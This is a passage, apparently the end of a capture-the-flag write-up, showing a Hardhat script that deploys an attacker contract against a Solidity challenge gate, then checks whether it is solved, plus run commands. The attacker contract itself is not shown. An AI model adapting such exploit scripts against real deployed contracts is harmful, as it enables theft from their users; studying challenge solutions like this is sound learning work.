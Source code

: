 ```javascript

    // // Deploy Attacker Contract
    const Hecker = await ethers.getContractFactory("Hecker");
    const hecker = await Hecker.deploy();
    console.log("Hacker Contract deployed at:", hecker.address);

    // Call Attacker contract's method
    await hecker.enterCall();

    // After attack
    last = await highsecuritygate.lastEntrant()
    console.log("Last Entrant Value = ", last);

    // After attack
    solved = await setup.isSolved();
    console.log("Is Solved: " + solved);

    if(String(solved) === String("true")){
      console.log("Successfully Changed to Pandora. :) ")
      console.log("PWNED Successfully")
  } else {
    console.log("Not Yet")
  }
}

main()
    .then(() => process.exit())
    .catch(error => {
        console.error(error);
        process.exit(1);
})
```

I have my script under `scripts` directory, and contracts under `contracts` directory.

`npx hardhat compile; npx hardhat run scripts/scriptname.js` compiles all of the contracts and runs the script.

Here is a gif showing the process:

![1](/DeceptionArtist.gif)

Hope this was helpful.
Thanks for reading.

Happy Learning :) 

